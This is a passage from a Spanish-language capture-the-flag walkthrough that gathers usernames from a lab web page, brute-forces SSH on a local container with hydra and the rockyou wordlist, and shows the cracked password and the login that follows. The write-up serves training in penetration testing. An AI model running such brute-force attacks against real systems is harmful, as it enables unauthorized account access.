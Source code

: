 Siempre hay que observar a fondo la información que tenemos, en este caso la pagina web contiene mucho texto del cual sacamos nombres clave como `Carlota` y `Juan`, ya tenemos dos posibles víctimas para hacer una conexion ssh.

<br>

---

<br>

> Os adelanto que haciendo fuerza bruta solo encontramos la contraseña de carlota, lo digo para ahorraros tiempo.

Vamos a hacer un ataque de fuerza bruta mediante la herramienta `hydra` para intentar encontrar la contraseña de `Carlota`:  
  
`└─$ hydra -l carlota -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 16
`  

- **hydra**: Es una herramienta para realizar ataques de fuerza bruta a servicios como SSH, HTTP, FTP, etc.  

- **-l carlota**: (L de *login*) Especifica el nombre de usuario a utilizar en el ataque de fuerza bruta. En este caso, es "carlota".  

- **-P /home/kali/Desktop/rockyou.txt**: (P de *Password list*) Define la ruta al archivo que contiene una lista de posibles contraseñas (en este caso, el archivo `rockyou.txt`) que contiene mas de un millon de contraseñas típicas.  

- **ssh://172.17.0.2**: Indica el protocolo (SSH) y la dirección IP (172.17.0.2) del servidor objetivo.  

- **-t 16**: Establece el número de hilos (threads) que se utilizarán para realizar el ataque, en este caso, 16 hilos en paralelo.  
  
Aquí el resultado:  

```
└─$ hydra -l carlota -P /home/kali/Desktop/rockyou.txt ssh://172.17.0.2 -t 5 
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-16 10:29:36
[DATA] max 5 tasks per 1 server, overall 5 tasks, 14344399 login tries (l:1/p:14344399), ~2868880 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlota   password: babygirl
1 of 1 target successfully completed, 1 valid password found
```  

<br>

---

<br>

Teniendo ya la contraseña de carlota, accedemos a su usuario mediante conexión ssh ya que el puerto 22 al estar abierto nos lo permite, `ssh carlota@172.17.0.2`.  
